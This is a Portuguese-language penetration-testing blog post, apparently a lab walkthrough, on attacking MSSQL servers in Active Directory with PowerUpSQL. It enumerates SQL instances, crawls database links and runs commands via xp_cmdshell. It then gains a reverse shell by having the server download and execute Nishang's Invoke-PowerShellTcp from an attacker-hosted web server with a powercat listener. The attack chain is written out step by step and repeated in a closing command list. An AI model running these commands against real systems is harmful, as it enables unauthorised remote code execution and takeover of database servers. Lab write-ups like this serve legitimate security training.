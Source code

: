 ```yaml
---
title: "Active Directory - Enumeração MSSQL"
tags: [Windows, Active Directory]
categories: "ActiveDirectory"
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/mssql-server.png)

# Considerações Iniciais

Agora vamos iniciar a enumeração do MSSQL Server desse AD, todo AD vai ter um servidor SQL, uma vez que é onde são guardados os dados.

A ferramenta que utilizarei para essa seção é o PowerUpSql.ps1, um script escrito em PowerShell que possibilita a enumeração rápida e precisa do servidor SQL de um AD.

LEIAM O POST DE REFERÊNCIA, MUITO IMPORTANTE PARA A COMPREENSÃO DO QUE SERÁ EXECUTADO AQUI

*Referência:*

[Link 1](https://blog.netspi.com/powerupsql-powershell-toolkit-attacking-sql-server/)

# Enumeração de Servidores SQL

A ideia inicial aqui é termos qualquer tipo de acesso, mesmo que publico ao banco de dados do SQL, tendo esse acesso podemos escalar privilégios dentro dele e virar SA (sysadmin) dentro dele, podendo por exemplo habilitar o xp_cmdshell e executar comandos cmd dentro da máquina do SQL e conseguir assim um reverse shell!

Vamos lá

## Listando SPN

Ferramenta utilizada PowerUpSql.ps1

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.ps1)

Listando todos os SQL do Laboratório que estão com SPN (Service Principal Name) habilitados

`Get-SQLInstanceDomain`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql.png)

Temos um total de 5 instância de SQL sendo executadas nesse laboratório.

## Verificando Conectividade com o servidor

Agora devemos verificar se algum deles é acessível, e sendo acessível podemos logar com algum usuário

`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql1.png)

Verificamos que temos uma Acessível! Então podemos testar comandos através da chain dela agora

## Testando a chain

Para ver se temos algum tipo de execução de comando dentro do servidor sql temos que testar a chain dele, e ver se em algum desses pontos temos execução de comandos

`Get-SQLServerLinkCrawl -Instance Instancia_acessível`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql2.png)

Verificamos que ele faz uma chain em vários pontos, então é bem provável que teremos algum tipo de RCE em alguma parte dessa chain

## Executando Comandos

`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'whoami'" | ft`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql3.png)

Show! Temos RCE dentro dessa máquina!

## Ganhando um Reverse Shell

Agora vamos pegar um reverse shell nela!

Iremos utilizar o `Invoke-PowerShellTCP.ps1` do Nishang

[PowerShellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

O `HFS` para hospedar nosso servidor web onde o servidor remoto irá fazer as requisições

[HFS](https://www.rejetto.com/hfs/)

E o `powercat` para receber a conexão reversa

[PowerCat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

Setamos o powercat na porta 443 para receber a conexão reversa

`powercat -l -v -p 443 -t 1000`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev.png)

Arrumamos (colocamos a chamada da função no final dela pra automaticamente executar o reverse shell) e upamos o Invoke-PowerShellTCP.ps1 no HFS

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev1.png)

Agora chamamos no crawl nosso reverse shell

`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1'')'" | ft`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev2.png)

Recebemos a conexão reversa da máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev3.png)

# Conclusão

Pronto! Conseguimos um reverse shell através de um database link dentro do MSSQL

## Comandos Utilizados

`Get-SQLInstanceDomain`
`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10`
`Get-SQLServerLinkCrawl -Instance Instancia_acessível`
`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'whoami'" | ft`
`powercat -l -v -p 443 -t 1000`
`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1'')'" | ft`